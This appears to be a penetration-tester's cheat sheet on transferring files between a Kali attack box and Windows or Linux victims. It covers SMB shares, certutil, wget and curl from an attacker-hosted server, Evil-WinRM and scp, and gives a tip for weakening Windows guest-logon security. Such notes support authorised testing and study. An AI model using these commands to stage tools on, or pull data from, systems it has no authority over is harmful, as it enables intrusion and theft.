 ```yaml
---
description: >-
  This took lots of time for me to compile and understand. However, through
  applying the "try harder" mentality, this concept has made me gain more
  confidence in my competence.
cover: https://media3.giphy.com/media/xTiTnjZAjQipGn9JFS/200.gif
coverY: 0
---
```


# 📤 File Transfer

## Windows->Linux Methods

### SMB Server

On Kali:

```
impacket-smbserver smb . -smb2support
```

On Windows:

```
net use \\<kali-ip>\smb

copy \\<kali-ip>\smb\SharpHound.exe .

dir

SharpHound.exe
```

* Be sure to open up the file through the file manager on Linux (GUI)
* This makes things easier

### If on Windows 11 and Impacket's SMB Server Does not Work...

You will likely run into `System error 1272` occurring on the Windows machine. I could be wrong, but I believe that this is a new default security mechanism to thwart unauthenticated guest access to shared drives by default. In order to get around this, you can modify the group policy using the following instructions:

```
Open Local Group Policy Editor by typing gpedit.msc in the Run dialog (Win + R).

Navigate to Computer Configuration > Administrative Templates > Network > Lanman Workstation.

Find and double-click on Enable insecure guest logons.

Set it to Enabled, click OK, and close the editor.
```

### SCP

On the Windows side, use an SCP client like PowerShell with OpenSSH or a tool like [WinSCP](https://winscp.net/).

For PowerShell, use the following command (replacing `<user>`, `<Kali_IP>`, and paths as necessary):

```
scp <path_to_local_file> <user>@<Kali_IP>:/path/on/kali
```

### Python3 HTTP Server (`http.server`)

Very easy, however, it requires `python3` to be installed on the victim/host.

**On Windows:**

```
# Obtain IP address of Windows machine
ipconfig

# Navigate to directory of file(s) you want to serve
cd ...

# Start server
python3 -m http.server

# By default, an HTTP server will be hosted on 127.0.0.1:8000
```

**On Kali:**

```
wget http://windows-ip:8000/file-name-here
```

### Evil-WinRM

```
# Download to your Kali:
Evil-WinRM download /file/name/here

# Upload a file to the Windows victim from Kali
Evil-WinRM upload /file/name/here
```

## Linux->Windows

### Certutil

On Kali:

```
python3 -m http.server
```

On Windows:

```
certutil -urlcache -f http://<kali_ip_here:8000>/name_of_file name_of_file
```

### Evil-WinRM

```
Evil-WinRM: PS C:\programdata> upload /../../../PowerView.ps1
```

## Linux->Linux

### Wget

On Kali:

```
python3 -m http.server
```

On Victim:

```
wget http://<tun0_ip_here>:8000/<file_name_here> <file_name_here>
```

#### Or, to transfer an entire directory, use:

```
wget -r http://192.168.76.146:8000/stack
```

#### Even Better

Download it all:

```
wget -r -l inf -np -nH --cut-dirs=0 -R "index.html*" -P <Directory_to_save_to> http://webserver
```

### Curl

On Kali:

```
python3 -m http.server
```

On Victim:

```
curl http://<tun0_ip_here:8000/<file_name_here> <file_name_here>
```

## SCP

* Is SSH open?
* SSH Creds or Key
* Identify path of file you want with <mark style="color:red;">`pwd`</mark>

Copying a file from a remote system to yours:

```
scp user@10.10.10.1:C:/ftp/infrastructure .
password:

Infrastructure.pdf                                                     100%   45KB 240.7KB/s   00:00    
```

Transfering a file from your system to a remote system:

```
scp root@10.10.10.1 -i ~/.ssh/id_rsa wordlist.txt /root/wordlists
```

## References

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}
